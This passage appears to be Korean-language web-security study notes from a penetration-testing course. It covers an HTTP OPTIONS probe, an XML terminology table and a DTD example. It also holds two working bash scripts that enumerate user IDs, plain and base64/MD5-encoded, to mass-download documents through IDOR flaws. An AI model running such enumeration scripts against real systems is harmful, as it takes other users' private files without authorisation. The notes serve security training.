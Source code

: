 ```

```curl -i -X OPTIONS http://SERVER_IP:PORT/```

<br/><br/>
## Insecure Direct Object References (IDOR)

### Insecure Parameters Mass Enumeration
```python
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Encoded References Mass Enumeration
```
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

<br/><br/>
## XML External Entity(XXE) Injection

### XML
| Key           | 정의                                                       | 예                                        |
| ------------- | -------------------------------------------------------- | ---------------------------------------- |
| `Tag`         | 일반적으로 (`<` / `>`) 문자로 묶인 XML 문서의 키입니다 .                  | `<date>`                                 |
| `Entity`      | 일반적으로 (`&` / `;`) 문자로 묶인 XML 변수입니다 .                     | `&lt;`                                   |
| `Element`     | 루트 요소나 그 자식 요소와 그 값은 시작 태그와 끝 태그 사이에 저장됩니다.              | `<date>01-01-2022</date>`                |
| `Attribute`   | XML 파서에서 사용될 수 있는 태그에 저장된 모든 요소에 대한 선택적 사양입니다.           | `version="1.0"`/`encoding="UTF-8"`       |
| `Declaration` | 일반적으로 XML 문서의 첫 번째 줄이며, 구문 분석할 때 사용할 XML 버전과 인코딩을 정의합니다. | `<?xml version="1.0" encoding="UTF-8"?>` |

### XML Document Type Definition(DTD)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```
